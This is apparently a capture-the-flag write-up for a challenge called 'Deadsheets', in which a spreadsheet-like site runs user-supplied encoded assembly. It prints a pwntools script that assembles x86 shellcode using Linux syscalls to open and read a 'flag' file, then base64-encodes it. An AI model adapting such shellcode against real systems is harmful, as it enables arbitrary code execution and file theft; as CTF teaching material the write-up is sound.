 # Deadsheets 
## Summary 
In this challenge the website we are given access to creates a "database"
sheet that is accessable online as a new file, the interesting aspect of 
this challenge is the fact that is has a extensible option when we add 
in data to the sheet. This option allows us to run any hex encoded assembly 
code which means we have arbitrary code execution access to the challenge.
However actually creating this payload is another story and requires some knowledge about how assembly works and especially how system calls within assembly works.

## Approach
Below is the payload that my team came up with for accessing the flag,
there is comments describing what each section is doing, however keep in
mind that the payload must not have the comments within in it for it to 
actually run properly.
```python
from pwn import *

from base64 import b64encode

bss_addr = 0x0804c060
flag_addr = bss_addr + 5 # address to push the flag to so we can access it

payload = asm(f"""
pushad
# setup for actually opening the flag file
mov eax, 0x5 
push 0x0
push 0x67616c66
mov ebx, esp
mov ecx, 0x0
mov edx, 0x0
int 0x80 # run the system call that is setup above

# read the contents in the open file
mov ebx, eax
mov eax, 0x3
mov ecx, {flag_addr}
mov edx, 0x40
int 0x80 # run setup syscall to read file


# access the open syscall return so we can read the actual flag 
mov eax, {flag_addr}

# pop values at the end
pop esi
pop esi
popad
ret
""")
# encode payload so we can use it on the server
print(b64encode(payload))
```
